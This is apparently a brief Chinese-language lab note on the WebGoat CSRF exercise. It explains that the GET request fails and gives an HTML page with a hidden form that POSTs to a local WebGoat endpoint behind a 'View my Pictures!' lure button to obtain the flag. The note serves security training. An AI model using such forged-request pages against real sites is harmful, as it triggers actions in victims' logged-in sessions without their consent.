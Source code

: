 ![](../../images/Pasted%20image%2020241212172935.png)

原来这样写是GET，需要构造一个POST
在自己的tomcat网站下面新建一个test.html

```html
<!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8">  
    <meta name="viewport" content="width=device-width, initial-scale=1.0">  
    <title>Send POST Request</title>  
</head>  
<body>  
    <form action="http://192.168.137.42:8080/WebGoat/csrf/basic-get-flag" method="POST">  
        <input type="hidden" name="csrf" value="false"> <!-- 根据需要添加参数 -->  
        <button type="submit">View my Pictures!</button>  
    </form>  
</body>  
</html>  
```

点击就可以得到
![](../../images/Pasted%20image%2020241212174430.png)
